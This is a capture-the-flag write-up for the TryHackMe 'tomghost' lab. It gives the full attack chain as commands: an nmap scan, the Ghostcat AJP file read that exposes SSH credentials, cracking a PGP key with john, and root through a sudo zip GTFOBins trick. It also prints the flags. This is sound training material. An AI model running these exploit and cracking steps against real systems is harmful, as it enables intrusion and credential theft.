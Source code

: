 ```yaml
---
title: "tomghost - TryHackMe"
category: "THM"
pubDate: 2020-05-12
description: "Writeup for the tomghost challenge"
---
```

[TryHackMe | tomghost](https://tryhackme.com/room/tomghost)

![](https://i.imgur.com/fR0jVuM.png)

**Are you able to complete the challenge?**

The machine may a take up to 5 minutes to boot and configure.

### Setup

```
nmap -sV -sC -vv 10.10.68.237
```

```
Discovered open port 53/tcp on 10.10.68.237
Discovered open port 22/tcp on 10.10.68.237
Discovered open port 8080/tcp on 10.10.68.237
Discovered open port 8009/tcp on 10.10.68.237
```

```
22/tcp   open  ssh        syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQvC8xe2qKLoPG3vaJagEW2eW4juBu9nJvn53nRjyw7y/0GEWIxE1KqcPXZiL+RKfkKA7RJNTXN2W9kCG8i6JdVWs2x9wD28UtwYxcyo6M9dQ7i2mXlJpTHtSncOoufSA45eqWT4GY+iEaBekWhnxWM+TrFOMNS5bpmUXrjuBR2JtN9a9cqHQ2zGdSlN+jLYi2Z5C7IVqxYb9yw5RBV5+bX7J4dvHNIs3otGDeGJ8oXVhd+aELUN8/C2p5bVqpGk04KI2gGEyU611v3eOzoP6obem9vsk7Kkgsw7eRNt1+CBrwWldPr8hy6nhA6Oi5qmJgK1x+fCmsfLSH3sz1z4Ln
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOscw5angd6i9vsr7MfCAugRPvtx/aLjNzjAvoFEkwKeO53N01Dn17eJxrbIWEj33sp8nzx1Lillg/XM+Lk69CQ=
|   256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqgzoXzgz5QIhEWm3+Mysrwk89YW2cd2Nmad+PrE4jw

53/tcp   open  tcpwrapped syn-ack

8009/tcp open ajp13 syn-ack Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS

8080/tcp open http syn-ack Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

After trying to exploit the Apache Tomcat, I realize that I was wrong about that, so I tried the other port 8009 Apache Jserv I search on github for one exploit and I found this.

[00theway/Ghostcat-CNVD-2020-10487](https://github.com/00theway/Ghostcat-CNVD-2020-10487)

```
python3 ajpShooter.py http://10.10.68.237:8080 8009 /WEB-INF/web.xml read
# URL:PORT + Jserv PORT + /WEB-INF/web.xml read
```

![](https://imgur.com/FtZHUNJ.png")

```
skyfuck:8730281lkjlkjdqlksalks
# Let's try to ssh this
```

![](https://imgur.com/fsV6mGi.png")

### #1 Compromise this machine and obtain user.txt

![](https://imgur.com/XCy6lRK.png")

```
skyfuck@ubuntu:~$ cd /home
skyfuck@ubuntu:/home$ ls
merlin  skyfuck
skyfuck@ubuntu:/home$ cd merlin/
skyfuck@ubuntu:/home/merlin$ ls
user.txt
skyfuck@ubuntu:/home/merlin$ cat user.txt
THM{GhostCat_1s_so_cr4sy}
```

### #2 Escalate privileges and obtain root.txt

If you going back to the skyfuck's home directory you will see the "credential.pgp" "tryhackme.asc"

let's scp them to our machine to crack them.

```
➜  TryHackMe scp skyfuck@10.10.68.237:/home/skyfuck/credential.pgp .
skyfuck@10.10.68.237 password:
credential.pgp

➜  TryHackMe scp skyfuck@10.10.68.237:/home/skyfuck/tryhackme.asc .
skyfuck@10.10.68.237 password:
tryhackme.asc
```

For this i'll use gpg2john

```
➜  TryHackMe sudo gpg2john tryhackme.asc > bopme

File tryhackme.asc
➜  TryHackMe cat bopme
tryhackme:$gpg$*17*54*3072*713ee3f57cc950f8f89155679abe2476c62bbd286ded0e049f886d32d2b9eb06f482e9770c710abc2903f1ed70af6fcc22f5608760be*3*254*2*9*16*0c99d5dae8216f2155ba2abfcc71f818*65536*c8f277d2faf97480:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc
```

Now the fun part crack the gpg !

```
➜  TryHackMe sudo john bopme --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status

"alexandru"        (tryhackme)

1g 0:00:00:00 DONE (2020-05-12 14:27) 10.00g/s 10720p/s 10720c/s 10720C/s chinita..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Nice we have the password

```
alexandru
```

Now let's decrypt the pgp file, but first let's import the tryhackme.asc

```
➜  TryHackMe gpg --import tryhackme.asc
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 2
gpg:       secret keys read: 1
gpg:   secret keys imported: 1

# password => alexandru
```

```
➜  TryHackMe gpg --decrypt credential.pgp
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

Nice we have the merlin's ssh password

![](https://imgur.com/zrEzvSs.png")

Let's root the machine !

[zip | GTFOBins](https://gtfobins.github.io/gtfobins/zip/)

```
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
$ id
uid=0(root) gid=0(root) groups=0(root)
$ cd /root/
$ ls
root.txt  ufw
$ cat root.txt
THM{Z1P_1S_FAKE}

```


